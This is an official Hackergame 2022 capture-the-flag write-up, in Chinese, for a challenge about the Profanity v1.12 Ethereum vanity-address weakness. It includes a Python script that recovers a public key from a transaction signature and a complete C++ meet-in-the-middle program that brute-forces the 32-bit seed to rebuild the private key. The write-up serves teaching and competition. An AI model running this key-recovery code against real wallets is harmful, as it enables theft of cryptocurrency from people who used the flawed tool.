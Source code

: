 # 小 Z 的靓号钱包

题解作者：[mingliangz](https://github.com/mlzeng)

出题人、验题人、文案设计等：见 [Hackergame 2022 幕后工作人员](https://hack.lug.ustc.edu.cn/credits/)。

## 题目描述

- 题目分类：math

- 题目分值：350

小 Z 最近听朋友说，有一家叫做 Wintermute 的交易公司，因为使用 [profanity](https://github.com/johguse/profanity) 生成了区块链上的靓号地址，[被盗](https://rekt.news/zh/wintermute-rekt-2/)了超过 1.6 亿美金。

「那真是太疯狂了！2018 年的时候，这个靓号生成工具还只有 **v1.12 版本**，我就用它生成了一个靓号地址 `0xffffffffffff0aa0914df1465327f33d591b30d8`，当时我用显卡跑了很久呢，没想到几年后大家才发现它不安全。」小 Z 感叹道。

他的朋友又跟他说，这个漏洞是随机数种子熵太小导致的，现在很多黑客和安全公司都已经实现了破解的算法，如果在链上有资金，要赶快提走。

小 Z 打开区块链浏览器，看了看自己在以太坊 Görli 测试网上的测试币。

「应该没有人会对我这点测试币感兴趣吧，何况旧版本的算法可能跟新版本的算法有一些区别，黑客应该没那么容易破解出我的私钥。」

提示：解决这个问题不需要很多计算资源（绝大多数办公笔记本电脑都是够用的）。

**[下载题目源代码](src/private_key_checker.py)**

你可以 `nc 202.38.93.111 10086` 来与远程交互，或者点击下面的 "打开/下载题目" 按钮通过网页终端与远程交互。

> 如果你不知道 `nc` 是什么，或者在使用上面的命令时遇到了困难，可以参考我们编写的 [萌新入门手册：如何使用 nc/ncat？](https://lug.ustc.edu.cn/planet/2019/09/how-to-use-nc/)

## 题解

这道题 idea 是 @zzh1996 的，我负责 implementation。

阅读 1inch Network 的[文章](https://blog.1inch.io/a-vulnerability-disclosed-in-profanity-an-ethereum-vanity-address-tool-68ed7455fc8c)可以了解破解 profanity 生成的靓号地址的私钥的原理（先**从交易签名中获取公钥**然后**中途相遇法计算私钥**）。具体实现细节也可以参考 Amber Group 的[文章](https://medium.com/amber-group/exploiting-the-profanity-flaw-e986576de7ab)。

### 获取公钥

使用区块链浏览器可以看到该地址在以太坊 Görli 测试网上面发过交易，获取交易哈希后，可以使用如下脚本从交易签名中恢复公钥。脚本代码实现参考了[链接](https://gist.github.com/CrackerHax/ec6964ea030d4b31d47b7d412036c623)。

```python
# Reference: https://gist.github.com/CrackerHax/ec6964ea030d4b31d47b7d412036c623

from web3 import Web3
from eth_account._utils.signing import to_standard_v, extract_chain_id, serializable_unsigned_transaction_from_dict

rpc_addr = 'https://ethereum-goerli-rpc.allthatnode.com'
tx_hash = '0x1032e388e1bae7fbdacb8ab5206abd3cf8f602736107b832de51bb10dac5e410'

w3 = Web3(Web3.HTTPProvider(rpc_addr))
tx = w3.eth.get_transaction(tx_hash)
s = w3.eth.account._keys.Signature(vrs=(to_standard_v(extract_chain_id(tx.v)[1]), w3.toInt(tx.r), w3.toInt(tx.s)))
tt = {k: tx[k] for k in ['chainId', 'nonce', 'gasPrice' if int(tx.type, 0) != 2 else '', 'gas', 'to', 'value',
                         'accessList', 'maxFeePerGas', 'maxPriorityFeePerGas'] if k in tx}
tt['data'] = tx['input']
ut = serializable_unsigned_transaction_from_dict(tt)
pk = s.recover_public_key_from_msg_hash(ut.hash())
print('pubkey:', str(pk).replace('0x', '0x04'))  # bitcoin uncompressed pubkey format
print('address:', pk.to_checksum_address())
```

运行脚本后得到公钥：

```
pubkey: 0x04a362925f16b3f45e7048b376dfd54beedee8defc8ea0804823c489f3cf5862f13e89da68fa280f0812ef2d339d95352bd97c03ccf0a6304a1aa004b6557ddd4b
address: 0xFFfFFfFFfFFf0aa0914DF1465327f33d591B30D8
```

### 计算私钥

通过阅读代码或者运行观察可以知道 profanity v1.12 版本枚举候选地址的方式：

* 使用 32bit 的真随机数初始化 `mt19937_64` 伪随机数生成器，并用其生成 256bit 的初始私钥。所以初始私钥只有 `2^32` 种可能性。（与最新版本一致）
* 枚举修改这个初始私钥的最高三字节（24bit），并计算出全部相应的地址和评分，打印评分高于以往最大值的地址。（与最新版本不同）
* 不断重复以上过程。（最新版本会递增初始私钥而不是重选初始私钥）

修改初始私钥对公钥产生的影响是增加 `x * (2^232) * G`（`G` 为生成元），其中 `x` 的取值范围是区间 `[-(2^24 - 1), (2^24 - 1)]` 之间的整数。因此小 Z 的公钥减去 `x * (2^232) * G` 得到的所有公钥中，必然有一个和某个初始私钥生成的公钥一样。所以将这些公钥存入哈希表，枚举所有 `2^32` 个初始私钥，计算对应公钥并查表即可。代码如下：

```c++
// Install bitcoin secp256k1 library (https://github.com/bitcoin-core/secp256k1)
// You can use command "sudo apt install libsecp256k1-dev" to install it on Ubuntu system

// Build piggypiggy secp256k1 library for fast enumeration (https://github.com/piggypiggy/secp256k1-x64)
// You can download the repo and use command "cd build && cmake .. && make" to build it on Ubuntu system

// Compile: g++ -O3 recover_key.cpp ./secp256k1-x64/bin/Release/libsecp256k1_x64.a -lsecp256k1 -fopenmp

#include <algorithm>
#include <iomanip>
#include <iostream>
#include <random>
#include <secp256k1.h>
#include <string>
#include <unordered_map>
#include <vector>

extern "C" {
#define P256_LIMBS 4
#define BN_ULONG unsigned long long
typedef struct {
  BN_ULONG X[P256_LIMBS];
  BN_ULONG Y[P256_LIMBS];
  BN_ULONG Z[P256_LIMBS];
} POINT256;
int CRYPTO_init();
int secp256k1_scalar_mul_gen(POINT256 *r, BN_ULONG scalar[P256_LIMBS]);
int secp256k1_point_get_affine(BN_ULONG x[P256_LIMBS], BN_ULONG y[P256_LIMBS],
                               const POINT256 *point);
}

int main() {
  std::unordered_map<uint64_t, int32_t> table;
  CRYPTO_init();
  secp256k1_context *ctx = secp256k1_context_create(SECP256K1_CONTEXT_VERIFY);
  std::string hex;
  std::cin >> hex;
  if (hex.substr(0, 2) == "0x") {
    hex = hex.substr(2);
  }
  {
    std::vector<unsigned char> bytes;
    for (size_t i = 0; i < hex.length(); i += 2) {
      bytes.push_back(std::stoul(hex.substr(i, 2), nullptr, 16));
    }
    secp256k1_pubkey pubkey;
    if (!secp256k1_ec_pubkey_parse(ctx, &pubkey, bytes.data(), bytes.size())) {
      std::cerr << "Invalid pubkey format" << std::endl;
      exit(1);
    }
    std::cerr << "Building table" << std::endl;
#pragma omp parallel for
    for (int32_t idx = -0xFFFFFF; idx <= 0xFFFFFF; idx++) {
      bool neg = idx < 0;
      int32_t idx_abs = neg ? -idx : idx;
      unsigned char tweak[32] = {idx_abs >> 16, idx_abs >> 8, idx_abs};
      secp256k1_pubkey temp = pubkey;
      if (!((!neg || secp256k1_ec_pubkey_negate(ctx, &temp)) &&
            secp256k1_ec_pubkey_tweak_add(ctx, &temp, tweak) &&
            (!neg || secp256k1_ec_pubkey_negate(ctx, &temp)))) {
#pragma omp critical
        {
          std::cerr << "Pubkey tweaking failed" << std::endl;
          exit(1);
        }
      }
      uint64_t hash = *(reinterpret_cast<uint64_t *>(temp.data));
#pragma omp critical
      {
        if (!table.insert({hash, idx}).second) {
          std::cerr << "Hash collision found" << std::endl;
          exit(1);
        }
      }
    }
  }
  {
    std::cerr << "Enumerating seeds" << std::endl;
#pragma omp parallel for
    for (uint64_t idx = 0; idx < (1ULL << 32); idx++) {
      std::mt19937_64 eng(idx);
      std::uniform_int_distribution<uint64_t> distr;
      BN_ULONG seckey[P256_LIMBS];
      for (size_t i = 0; i < 4; i++) {
        seckey[i] = distr(eng);
      }
      POINT256 point;
      BN_ULONG x[P256_LIMBS];
      BN_ULONG y[P256_LIMBS];
      secp256k1_scalar_mul_gen(&point, seckey);
      secp256k1_point_get_affine(x, y, &point);
      uint64_t hash = x[0];
      if (table.count(hash)) {
        seckey[3] -= (static_cast<int64_t>(table.at(hash)) << 40);
#pragma omp critical
        {
          std::cout << "0x";
          for (size_t i = 0; i < 4; i++) {
            std::cout << std::hex << std::setfill('0') << std::setw(16)
                      << seckey[3 - i];
          }
          std::cout << std::endl;
          exit(0);
        }
      }
    }
  }
}
```

编译运行，输入公钥，生成哈希表后，枚举一段时间即可得到私钥。在新款的办公笔记本电脑上进行测试，半个小时内可以得到结果。在 64 核服务器上进行测试，三分钟内可以得到结果。

## 出题思路

本节作者：[zzh1996](https://github.com/zzh1996)

这道题的出题思路是我提供的。

我很早就用过 Profanity 这个地址生成工具，2019 年 Hackergame 的[韭菜银行](https://github.com/ustclug/hackergame2019-writeups/blob/master/official/%E9%9F%AD%E8%8F%9C%E9%93%B6%E8%A1%8C/README.md)题目合约的[部署地址](https://kovan.etherscan.io/address/0x0000051935734850820502424350107413369555)还是用它生成的，我甚至给这个项目提过 [issue](https://github.com/johguse/profanity/issues/20)。

在这个漏洞被大规模利用之前，有一次我在 Flashbots 的 Discord 里面还看见过有人讨论年初的这个 [issue](https://github.com/johguse/profanity/issues/61)，我还在里面说用 BSGS 算法并且搞个 GPU 集群说不定可以破解出来，但是没有深入研究。没想到这个问题导致了如此严重的安全事件。

在漏洞爆出来后，很多研究机构和个人都实现了验证脚本。我跟 [mingliangz](https://github.com/mlzeng) 讨论能不能出成 Hackergame 题目，但是发现破解所需的计算量有点大，选手没有很强的机器可能跑不出来。除此之外，我们也担心比赛前或者比赛过程中有研究者在网上公开破解脚本。后来，mingliangz 发现旧版本破解所需的计算量会小很多，逻辑上还有一些不同使得针对最新版本的脚本没法直接使用，于是就出成了这道题。
